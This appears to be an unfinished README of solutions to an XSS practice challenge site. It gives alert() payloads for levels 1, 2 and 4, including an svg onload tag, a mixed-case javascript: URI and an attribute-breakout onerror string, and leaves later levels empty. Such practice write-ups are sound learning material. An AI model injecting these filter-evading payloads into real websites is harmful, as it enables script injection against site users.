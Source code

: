 # XSS Challanges from https://www.zixem.altervista.org/XSS

## Level 1

```html
<svg/onload=alert()>
```
## Level 2

```html
<object data="javascRipt:alert()">
```

## Level 3

- htmlentities
- urlencode

```html

```


## Level 4

- Inline html

```html
x' onerror=javascript:alert()//
```

## Level 5

## Level 6

## Level 7

## Level 8

## Level 9

## Level 10
